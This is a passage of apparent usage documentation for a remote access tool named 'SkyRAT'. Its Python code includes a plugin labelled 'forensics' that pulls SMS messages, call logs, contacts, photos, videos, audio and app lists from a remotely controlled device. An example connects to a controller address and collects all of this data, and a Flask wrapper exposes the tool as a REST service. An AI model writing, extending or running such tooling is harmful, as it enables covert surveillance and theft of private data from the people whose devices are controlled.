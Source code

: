```python
        if evidence_type in ["all", "communication"]:
            evidence['sms'] = self.client.extract_sms("inbox")
            evidence['calls'] = self.client.send_command("getCallLogs")
            evidence['contacts'] = self.client.send_command("getContacts")
            
        if evidence_type in ["all", "media"]:
            evidence['photos'] = self.client.send_command("getPhotos")
            evidence['videos'] = self.client.send_command("getVideos")
            evidence['audio'] = self.client.send_command("getAudio")
            
        if evidence_type in ["all", "system"]:
            evidence['device_info'] = self.client.get_device_info()
            evidence['apps'] = self.client.send_command("getApps")
            evidence['processes'] = self.client.send_command("ps")
            
        return evidence
        
    def cleanup(self):
        """Cleanup forensics plugin"""
        print(f"Cleaning up {self.name}")

# Plugin usage
client = SkyRATClient("192.168.1.100", 8000)
client.connect()

forensics = ForensicsPlugin()
forensics.initialize(client)

# Collect all evidence
evidence = forensics.execute("all")

# Process and export evidence
forensics.cleanup()
client.disconnect()
```

### **REST API Wrapper**

Create a REST API wrapper for SkyRAT:

```python
#!/usr/bin/env python3
# skyrat_api.py

from flask import Flask, jsonify, request
from skyrat_client import SkyRATClient
import threading
import time

app = Flask(__name__)

class SkyRATAPI:
    def __init__(self):
        self.clients = {}
        
    def get_client(self, session_id):
        """Get or create client for session"""
        if session_id not in self.clients:
            client = SkyRATClient("localhost", 8000)
            client.connect()
            self.clients[session_id] = client
        return self.clients[session_id]

api = SkyRATAPI()
```